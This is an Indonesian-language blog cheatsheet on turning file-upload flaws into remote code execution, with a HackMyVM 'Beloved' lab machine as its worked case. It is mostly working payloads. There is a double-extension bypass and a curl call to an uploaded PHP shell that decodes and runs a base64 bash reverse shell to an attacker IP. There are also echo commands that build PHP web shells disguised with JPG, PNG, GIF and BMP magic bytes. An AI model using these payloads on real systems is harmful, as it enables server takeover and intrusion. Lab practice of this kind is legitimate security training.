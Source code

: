 ```yaml
---
layout: post
title: "Note: RCE to Image"
date: 2022-12-09
---
```


Karena saya rada kesusahan untuk mengumpulkan resource jika nanti googling-googling. Dan note yang saya pakai juga tidak lengkap referensinya, maka saya kumpulkan di sini. 

Jika ada malicious upload, maka yang seharusnya dilakukan adalah memanipulasi file extension atau memanipulasi isi dari file tersebut.

Bisa juga, jika trik ini tidak berfungsi dengan benar, maka bisa dinjeksi dengan membuat ekstensi menjadi double format.
```sh
~$ mv shell.jpg shell.jpg.php
```
lalu coba aktifkan dengan curl
```sh
~$ curl -s "http://beloved/wp-content/uploads/2022/12/shell.jpg-1670590514.8364.php?cmd=echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTkuMS8xMjM0NSAwPiYxCg%3D%3D+%7C+base64+-d+%7C+bash"
```
Dan, tidak perlu repot repot untuk menggunakan <https://revshell.com> yang dibuat oleh 0day. Cukup buat string menjadi URL-encoded, dan eksekusi.
```sh
~$ python -c 'import urllib.parse; string = "(isi string di sini)"; print(urllib.parse.quote_plus(string))'
```
Dengan format seperti ini, btw ini format favorit saya.
```sh
~$ echo (base64) | base64 -d | bash  
```

## Kasus
ada kasus menarik dari mesin [Beloved: HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Beloved), exploit yang saya jalankan dengan request `image` tidak berfungsi, jadi saya menggunakan trik manual yaitu mengganti format menjadi `.jpg.php` untuk membypass.

![image](https://i.postimg.cc/63Vx9Pzf/image.png)

Ketika saya eksekusi jadi seperti ini
```
╭─ via [machines/beloved]
╰─ curl -s http://beloved/wp-content/uploads/2022/12/shell.jpg-1670590514.8364.php\?cmd\=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Sebelum masuk ke cheatsheet, jika anda penikmat POST Request bisa mengganti `$_GET` menjadi `$_POST`. LOL semua orang juga sudah tau ini.

## JPG
```shell
echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > shell.jpg
```

## PNG
```shell
echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > shell.png
```

## GIF
```shell
echo -n -e '\x47\x49\x46\x38<?php system($_GET["cmd"]);?>.' > shell.gif
```
## BMP
```shell
echo -n -e '\x42\x4D<?php system($_GET["cmd"]);?>.' > shell.bmp
```

Happy hacking!
